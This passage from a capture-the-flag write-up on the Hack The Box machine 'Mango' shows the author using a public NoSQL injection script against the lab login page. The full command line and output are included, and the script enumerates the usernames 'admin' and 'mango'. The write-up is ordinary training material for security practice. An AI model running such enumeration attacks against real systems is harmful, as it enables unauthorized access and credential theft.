 Now with a name like Mango, my first thought is wondering if the database is MongoDB. Before spending much time trying to bypass this login with common SQL injection techniques, I try firing off https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration, to see if we can grab some credentials. 

This is an awesome exploit that uses regex to fuzz for usernames and passwords against nosql databases (like MongoDB). 

Lets try this exploit to get a list of possible users:

```text
┌──(ryan㉿kali)-[~/Tools/exploits]
└─$ python nosqli-user-pass-enum.py -m post -up username -pp password -op login:login -u http://staging-order.mango.htb/ -ep username
No pattern starts with '0'
No pattern starts with '1'
No pattern starts with '2'
No pattern starts with '3'
No pattern starts with '4'
No pattern starts with '5'
No pattern starts with '6'
No pattern starts with '7'
No pattern starts with '8'
No pattern starts with '9'
Pattern found that starts with 'a'
Pattern found: ad
Pattern found: adm
Pattern found: admi
Pattern found: admin
username found: admin
No pattern starts with 'b'
No pattern starts with 'c'
No pattern starts with 'd'
No pattern starts with 'e'
No pattern starts with 'f'
No pattern starts with 'g'
No pattern starts with 'h'
No pattern starts with 'i'
No pattern starts with 'j'
No pattern starts with 'k'
No pattern starts with 'l'
Pattern found that starts with 'm'
Pattern found: ma
Pattern found: man
Pattern found: mang
Pattern found: mango
username found: mango
...

2 username(s) found:
admin
mango
```
